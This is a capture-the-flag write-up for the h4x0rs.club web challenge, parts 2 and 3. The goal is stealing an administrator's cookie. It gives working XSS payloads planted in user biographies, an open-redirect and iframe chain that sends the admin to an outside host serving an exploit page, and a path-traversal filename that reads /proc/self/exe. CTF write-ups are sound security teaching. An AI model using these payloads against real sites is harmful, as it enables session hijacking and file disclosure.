

# h4x0rs.club part 2

## https://h4x0rs.club/game/


```
Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!
```

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.



### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

You can get the binary by abusing `badges` action with filename: `../../../../../../proc/self/exe`


## Other writeups
https://gist.github.com/paul-axe/869919d4f2ea84dea4bf57e48dda82ed
https://github.com/lbherrera/writeups/tree/master/0ctf_quals-2018/h4x0rs.club
